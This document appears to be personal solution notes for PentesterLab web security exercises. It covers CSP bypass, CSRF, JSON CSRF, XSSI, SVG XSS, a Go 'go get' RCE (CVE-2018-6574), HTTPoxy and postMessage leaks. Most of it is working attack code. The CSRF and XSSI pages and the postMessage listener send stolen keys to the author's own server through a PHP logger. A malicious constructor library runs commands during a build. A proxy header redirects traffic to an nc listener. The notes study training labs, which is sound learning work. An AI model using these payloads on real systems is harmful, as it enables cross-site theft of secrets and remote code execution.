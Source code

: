 ## Orange Badge

### Intro to CSP 

- https://hackerone.com/reports/153666
- `<script>alert('2fdb31a2-ca58-4650-abfb-9406be061d69')</script>` doesn't work due to CSP
- `Content-Security-Policy: default-src 'self'; script-src 'self' https://pentesterlab.com`
- But there is an XSS in `js/countdown.php?end=2534926825*1000).getTime();alert(1);//`
- So we can use `/?name=<script src="js/countdown.php?end=2534926825*1000).getTime();alert(1);//"></script>`

### CSRF

- Create users and see if any sensitive actions can be performed without tokens.
- Create a malicious page and upload it to your vps `http://18.191.42.249/csrf.html`

```
<!DOCTYPE html>
<html>
<body>
    <form method="post" action="http://ptl-55544eb5-9632baab.libcurl.so/share">
        <input name="user" value="asdf">
        <input name="id" value="0">
    </form>
    <script>
        document.forms[0].submit();
    </script>
</body>
</html>
```

```
Name	Value
PTLAB_KEY	57bea68a-1090-4329-8b94-37d4d3bb453a
```

### JSON CSRF

- The JSON request body looks like this `{"user":"asdf","id":0}`
- When we send stuff through forms they appear as `k1=v1&k2=v2`
- To fix this put everything in name.
- But everything still gets URL encoded, use `enctype="text/plain"`
- Be aware of quotes used. I tried using `'` which gave me an error, while `"` worked.

```
<html>

<body onload="document.forms[0].submit();">
<form enctype="text/plain"
      method="POST"
      action="http://ptl-2d63cb87-4d590bd7.libcurl.so/share">
<input name='{"user":"asdf","id":0,"trash":"' value='"}'>
</form>

</body>
</html>
```

```
Name	Value
PTLAB_KEY	d800b2b5-8625-4c05-a11a-9719c007b554
```

### XSSI
- This exercise covers the exploitation of a Cross-Site Scripting Include (XSSI) vulnerability.
- This type of vulnerability is common with modern applications and applications relying massively on JSON with Padding (JSONP).
- For difference between XSSI, CSRF and XSS look into https://www.scip.ch/en/?labs.20160414

xssi.html
```
<!DOCTYPE html>
<html>
<body>

<script>
function display(data) {
	var str = '';
	for (var key in data) {
		str += '<img src="http://18.191.42.249/log.php?c='+key+':'+data[key] + '">';
	}
	document.write(str);
}
</script>

<script src="http://ptl-a878d4de-fa8ca92a.libcurl.so/secrets.js"></script>
</body>
</html>
```

log.php
```
<?php

$myfile = fopen('logs.txt', 'a') or die('Unable to open file!');
$txt = $_GET['c'];
$myfile = file_put_contents('logs.txt', $txt.PHP_EOL , FILE_APPEND | LOCK_EX);
```

```
$ >logs.txt
$ cat logs.txt 
PTLAB_KEY:7d570b4a-4a01-4430-88db-2f7907382269
```

### SVG XSS

Upload HTML file and change extension through proxy

```
<html>
    <script>
        alert('2fdb31a2-ca58-4650-abfb-9406be061d69')
    </script>
</html>
```

### CVE-2018-6574: go get RCE

- This vulnerability was fixed in Go 1.8.7, 1.9.4 and 1.10rc2.
- When installing a package, Golang will build native extensions.

attack.c
```
#include<stdio.h>
#include<stdlib.h>

static void malicious() __attribute__((constructor));

void malicious() {
    system("touch /tmp/owned");
}
```

```
$ gcc -shared -o attack.so -fPIC attack.c
```

```
package main
// #cgo CFLAGS: -fplugin=./attack.so
// typedef int (\*intFunc) ();
//
// int
// bridge_int_func(intFunc f)
// {
//      return f();
// }
//
// int fortytwo()
// {
//      return 42;
// }
import "C"
import "fmt"

func main() {
    f := C.intFunc(C.fortytwo)
    fmt.Println(int(C.bridge_int_func(f)))
    // Output: 42
}
```

Put all three files in a GitHub repository and `go get github.com/abhaynayar/cve-2018-6574`

### CVE-2016-5386: HTTPoxy

- https://httpoxy.org/
- The web server adds the prefix HTTP_ and capitalise the string.
- For example, the Host: header becomes the variable HTTP_HOST.
- An environment variable of such format exists: HTTP_PROXY.

Solution

- Request being made to `http://ptl-9c6cf080-93a0aa2b.libcurl.so/cgi-bin/hello.cgi`
- Add header `Proxy: 18.191.42.249:1337`
- On your vps `$ nc -lvp 1337`
- We get the key as `User-Agent: 4b25aabc-4dce-43d4-9f86-49327d4548c0`

### postMessage()

- "The window.postMessage() method safely enables cross-origin communication between Window objects; e.g., between a page and a pop-up that it spawned, or between a page and an iframe embedded within it."
- However, if the application relies on cookies and the opened page sends back sensitive information to the opening page without enforcing a targetOrigin, it's possible for a malicious page to get access to this sensitive information by getting users to visit a malicious page.
- To prevent this issue, the backend should avoid using * as the second argument of postMessage (targetOrigin).

pm1.html
```
<!DOCTYPE html>
<html>
    <body>
        <button onclick='window.open("http://ptl-12065b08-fa3f5dba.libcurl.so/key/0","ptlabdata0","height=200,width=150")'>Decrypt</button>
        <img id="asdf"></img>
        <script>
            window.addEventListener("message", function(event){
                document.getElementById("asdf").src = "http://18.191.42.249/log.php?c=" + event.data.value;
            }, false);
        </script>
    </body>
</html>
```

Success
```
http://18.191.42.249/pm1.html
15492096-e7fc-4675-b36d-d9d4f99a304e
```


